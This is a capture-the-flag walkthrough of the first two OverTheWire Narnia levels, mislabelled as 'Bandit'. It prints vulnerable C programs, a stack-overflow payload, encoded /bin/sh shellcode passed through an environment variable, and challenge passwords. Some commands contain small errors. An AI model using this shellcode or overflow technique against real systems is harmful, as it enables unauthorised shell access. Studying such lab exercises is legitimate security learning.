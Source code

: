 
# OverTheWire

OverTheWire's challenges walkthrogh.


## Bandit
### level 0->1
We can connect using secure 
shell to the server with narnia0 as the 
user and narnia0 as the password. After we logged 
in we can see two files narnia0 and narnia0.c .

*narnia0.c*
```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }
    return 0;
}
```
From the code we can see that there is buffer
that gets from the standard input 24 bytes while
the buffer is only contains 20 bytes of space. before
that buffer we can see that the program declered variable
that contains 4 bytes so on the stack we can overwrite
this variable by send to the standard input 24 bytes.
Important thing we need to notice is that the scanf
function takes string and we need to change 0x41414141 to 0xdeadbeed
so we need to provide the standard input the string
presentation of 0xdeadbeef in hex. 

We can do it by write in the bash:
```
echo -e '\xef\xbe\xad\xde'
```
So the exploit will be:
```
(echo -e 'AAAABBBBCCCCEEEEFFFF\xef\xbe\xad\xde'; cat;) | ./narnia0
```
The password for the next level is: eaa6AjYMBB

### level 1->2

*narnia1.c*
```c
#include <stdio.h>

int main(){
    int (*ret)();

    if(getenv("EGG")==NULL){
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```
If we take a look at the source code we can see that first we check if the env var called "EGG" is exist on the machine if it is not we print something, if it is we can see that we take the string that the "EGG" env contains, put it in ret pointer and trying to execute it.

Lets look at the assembly for a sec to understand how it executes the string that EGG contains.
```asm
Dump of assembler code for function main:
   0x08049196 <+0>:     push   %ebp
   0x08049197 <+1>:     mov    %esp,%ebp
   0x08049199 <+3>:     sub    $0x4,%esp
   0x0804919c <+6>:     push   $0x804a008
   0x080491a1 <+11>:    call   0x8049050 <getenv@plt>
   0x080491a6 <+16>:    add    $0x4,%esp
   0x080491a9 <+19>:    test   %eax,%eax
   0x080491ab <+21>:    jne    0x80491c1 <main+43>
   0x080491ad <+23>:    push   $0x804a00c
   0x080491b2 <+28>:    call   0x8049060 <puts@plt>
   0x080491b7 <+33>:    add    $0x4,%esp
   0x080491ba <+36>:    push   $0x1
   0x080491bc <+38>:    call   0x8049070 <exit@plt>
   0x080491c1 <+43>:    push   $0x804a041
   0x080491c6 <+48>:    call   0x8049060 <puts@plt>
   0x080491cb <+53>:    add    $0x4,%esp
   0x080491ce <+56>:    push   $0x804a008
   0x080491d3 <+61>:    call   0x8049050 <getenv@plt>
   0x080491d8 <+66>:    add    $0x4,%esp
   0x080491db <+69>:    mov    %eax,-0x4(%ebp)
   0x080491de <+72>:    mov    -0x4(%ebp),%eax
   0x080491e1 <+75>:    call   *%eax
   0x080491e3 <+77>:    mov    $0x0,%eax
   0x080491e8 <+82>:    leave  
   0x080491e9 <+83>:    ret    
End of assembler dump.
```
The intresting lines are 61-77 we can clearly see that it calls getenv(), after that it makes space on the stack and finally calls the function that eax points to(getenv() returns a pointer to a string).
So all we need to to is to put in EGG a shellcode that execute "/bin/sh".
after I have tries some shellcodes this one worked: "\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81"

The final exploit will be:
```
export EGG = $(echo -e "\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81")
```
```
./narnia1
```
The password for the next level is: Zzb6MIyceT










